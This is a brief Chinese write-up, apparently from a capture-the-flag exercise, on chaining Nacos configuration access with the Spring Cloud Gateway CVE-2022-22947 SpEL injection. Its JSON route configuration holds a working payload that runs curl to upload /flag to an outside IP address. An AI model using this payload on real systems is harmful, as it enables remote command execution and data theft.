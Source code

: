 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是json格式。
这里是给了网关的jar，反编译查看到了基础的配置。
![](.topwrite/assets/image_1735374395624.png)
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
此时访问/echo/11触发
